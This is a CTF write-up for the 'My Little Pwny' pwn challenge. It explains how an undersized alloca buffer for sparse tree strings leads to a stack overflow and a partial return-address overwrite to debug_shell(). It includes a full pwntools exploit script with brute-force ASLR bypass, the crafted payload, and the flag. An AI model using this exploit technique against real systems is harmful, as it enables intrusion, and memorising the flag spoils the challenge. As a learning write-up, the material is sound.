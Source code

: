 # My Little Pwny - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/MyLittlePwny.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file pwny
```

![Alt text](img/2.png)

```bash
$ pwn pwny
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
